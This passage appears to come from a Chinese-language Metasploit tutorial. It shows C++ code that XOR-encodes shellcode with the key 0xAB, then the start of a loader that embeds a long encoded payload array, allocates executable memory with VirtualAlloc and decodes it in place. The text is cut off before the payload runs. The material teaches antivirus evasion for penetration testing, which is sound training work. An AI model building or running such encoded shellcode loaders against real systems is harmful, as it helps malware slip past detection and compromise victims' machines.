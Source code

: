 ```
int main()
  {
    for (unsigned int i = 0; i < sizeof shellcode; ++i)
      {
        if (i % 15 == 0)
          {
            std::cout << "\"\n\"";
          }
        unsigned char val = (unsigned int)shellcode[i] ^ 0xAB;
        std::cout << "\\x" << std::hex << (unsigned int)val;
      }
    _getch();
    return 0;
  }

```

我们可以看到我们刚刚使用`0xAB`对 shellcode 进行了 XOR。这个程序将生成以下输出：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/mtspl-bc/img/00091.jpeg)

# 创建一个解码器可执行文件

让我们使用新生成的 shellcode 编写一个程序，将生成一个可执行文件，如下所示：

```
#include <Windows.h>
#include <iostream>
#include <iomanip>
#include <conio.h>
unsigned char encoded[] =
"\x57\x43\x29\xab\xab\xab\xcb\x22\x4e\x9a\x6b\xcf\x20\xfb\x9b"
"\x20\xf9\xa7\x20\xf9\xbf\x20\xd9\x83\xa4\x1c\xe1\x8d\x9a\x54"
"\x7\x97\xca\xd7\xa9\x87\x8b\x6a\x64\xa6\xaa\x6c\x49\x59\xf9"
"\xfc\x20\xf9\xbb\x20\xe1\x97\x20\xe7\xba\xd3\x48\xe3\xaa\x7a"
"\xfa\x20\xf2\x8b\xaa\x78\x20\xe2\xb3\x48\x91\xe2\x20\x9f\x20"
"\xaa\x7d\x9a\x54\x7\x6a\x64\xa6\xaa\x6c\x93\x4b\xde\x5d\xa8"
"\xd6\x53\x90\xd6\x8f\xde\x4f\xf3\x20\xf3\x8f\xaa\x78\xcd\x20"
"\xa7\xe0\x20\xf3\xb7\xaa\x78\x20\xaf\x20\xaa\x7b\x22\xef\x8f"
"\x8f\xf0\xf0\xca\xf2\xf1\xfa\x54\x4b\xf4\xf4\xf1\x20\xb9\x40"
"\x26\xf6\xc3\x98\x99\xab\xab\xc3\xdc\xd8\x99\xf4\xff\xc3\xe7"
"\xdc\x8d\xac\x54\x7e\x13\x3b\xaa\xab\xab\x82\x6f\xff\xfb\xc3"
"\x82\x2b\xc0\xab\x54\x7e\xc1\xae\xc3\x86\xe7\x8a\x9e\xc3\xa9"
"\xab\xae\x92\x22\x4d\xfb\xfb\xfb\xfb\xeb\xfb\xeb\xfb\xc3\x41"
"\xa4\x74\x4b\x54\x7e\x3c\xc1\xbb\xfd\xfc\xc3\x32\xe\xdf\xca"
"\x54\x7e\x2e\x6b\xdf\xa1\x54\xe5\xa3\xde\x47\x43\xca\xab\xab"
"\xab\xc1\xab\xc1\xaf\xfd\xfc\xc3\xa9\x72\x63\xf4\x54\x7e\x28"
"\x53\xab\xd5\x9d\x20\x9d\xc1\xeb\xc3\xab\xbb\xab\xab\xfd\xc1"
"\xab\xc3\xf3\xf\xf8\x4e\x54\x7e\x38\xf8\xc1\xab\xfd\xf8\xfc"
"\xc3\xa9\x72\x63\xf4\x54\x7e\x28\x53\xab\xd6\x89\xf3\xc3\xab"
"\xeb\xab\xab\xc1\xab\xfb\xc3\xa0\x84\xa4\x9b\x54\x7e\xfc\xc3"
"\xde\xc5\xe6\xca\x54\x7e\xf5\xf5\x54\xa7\x8f\x42\xda\x54\x54"
"\x54\xaa\x68\x82\x6d\xde\x6c\x68\x10\x5b\x1e\x9\xfd\xc1\xab"
"\xf8\x54\x7e\xab";

int main()
  {
    void *exec = VirtualAlloc(0, sizeof encoded, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    for (unsigned int i = 0; i < sizeof encoded; ++i)
      {
        unsigned char val = (unsigned int)encoded[i] ^ 0xAB;
        encoded[i] = val;
      }
```